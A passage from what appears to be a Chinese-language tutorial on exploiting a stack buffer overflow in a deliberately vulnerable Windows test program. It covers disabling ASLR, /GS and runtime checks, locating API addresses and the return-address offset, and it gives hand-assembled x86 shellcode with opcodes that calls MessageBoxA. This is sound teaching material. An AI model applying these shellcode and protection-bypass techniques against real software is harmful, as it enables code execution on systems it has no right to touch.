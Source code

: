 - `foo` 函数的作用仅仅是提供一个缓冲区溢出的漏洞；
- `LoadLibrary(TEXT("user32.dll"))` 是为了能在恶意代码中调用 `MessageBoxA`，但这条语句只在第一个例子中才是必需的。

## The first attempt

### Prerequisite

从第一篇研究缓冲区溢出的文章 _Smashing The Stack For Fun and Profit_(1996) 到现在已经过去20+年，在此期间编译器已经发展出许多应对缓冲区溢出的措施。和[书中的例子可直接注入 shellcode](https://book.douban.com/subject/6524076/)不同，这里的程序在编译之前要做一些额外的配置工作：

- 关闭 ASLR([Address space layout randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization))，让目标程序的映像装载到固定基址`0x400000`：
    - "Linker" > "Advanced" > "[Randomized Base Address](https://stackoverflow.com/a/9561294/8706476)" : `/DYNAMICBASE:NO` 
- 关闭运行时栈帧错误检查：
    - "C/C++" > "Code Generation" > "Basic Runtime Checks" : `/RTCu` 或空白。
    - `/RTCs` 会在函数返回之前引入 `__RTC_CheckEsp`
- 关闭安全检查：
    - "C/C++" > "Code Generation" > "Security Check" : `/GS-`。
    - `/GS` 会引入 `__security_check_cookie `
- 为方便起见用文件代替输入：
    - Debugging 标签页 `Command Arguments`: `< "$(ProjectDir)\stack-buffer-overflow.in"`

### Steps

- 获取 Windows API `MessageBoxA` 和 `ExitProcess` 的地址
- 确定第一条指令的地址。这个地址将被用来覆盖 RA，通常位于缓冲区内。
- 确定 RA 到缓冲区的偏移，以保证 RA 被正确覆盖。
- 设计指令并获取机器码。

一些调试器，比如 [x64dbg](https://github.com/x64dbg/x64dbg)，在调试过程中可以浏览模块导出/导入符号，藉此可以快速定位函数地址。`MessageBoxA` 的地址为 `0x745E7E60`(user32)，`ExitProcess` 的地址为 `0x74F43A10`(kernel32)。而目标程序 `void foo(const char*)` 的实现如下：

![Assembly]({{ "img/stack-buffer-overflow-foo.png" | absolute_url }})


调试目标程序，可见当前 `ebp` 为 `0x0019FA2C`，缓冲区 `buffer` 起始于 `ebp-0x30`，而 RA 位于 `ebp+4`。站在攻击者的角度，若选择把第一条指令放到缓冲区起始的位置，

- 第一条指令的地址就是 `0x0019FA2C` - `0x30` = `0x0019F9FC`；
- RA 相对与缓冲区的位移是 `0x34`；不足 `0x34` 的部分用无实际作用的指令填充，比如`0x90`(`nop`)；
- 最后将 `0x0019F9FC` 按照小端格式追加到尾部

shellcode 的布局如下：

![Layout of shellcode]({{ "img/stack-buffer-overflow-layout.png" | absolute_url }})

构造如下代码

```cpp
_asm {
shellcode_start:    
    xor ebx, ebx        // \x33\xDB             ;Avoid explicit zeros
    mov bl, 0x80        // \xB3\x80
    sub esp, ebx        // \x2B\xE3             ;Lift stack pointer
    xor ebx, ebx        // \x33\xDB             ;Produce zeros
    push ebx            // \x53                 ;Null character
    push 0x4C494146     // \x68\x46\x41\x49\x4C ;ASCII "FAIL" in little-endian
    mov eax, esp        // \x8B\xC4             ;Load address of string "FAIL"
    push ebx            // \x53                 ;0
    push eax            // \x50                 ;Address of string "FAIL"
    push eax            // \x50                 ;Address of string "FAIL"
    push ebx            // \x53                 ;0
    mov eax, 0x745E7E60 // \xB8\x60\x7E\x5E\x74 ;Address of MessageBoxA
    call eax            // \xFF\xD0             ;MessageBoxA(0, eax, eax, 0)
    // No zeros at the top of stack due to caller of MessageBoxA cleaning arguments
```